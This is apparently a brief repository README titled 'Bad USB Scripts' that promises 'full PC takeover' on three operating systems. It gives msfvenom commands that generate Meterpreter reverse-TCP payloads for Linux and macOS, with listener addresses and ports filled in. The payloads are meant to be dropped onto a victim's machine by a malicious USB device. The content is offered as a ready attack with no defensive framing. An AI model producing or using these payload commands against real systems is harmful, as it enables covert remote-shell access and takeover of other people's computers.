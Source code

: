 # Bad USB Scripts

- Full PC takeover scripts for all 3 major OSes

### Payload Generation using msfvenom
For Linux :
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.88.229 LPORT=1337 -f elf | base64`

For MacOS :
`msfvenom -p osx/x64/meterpreter/reverse_tcp LHOST=192.168.88.235 LPORT=1337 -f macho > osx`
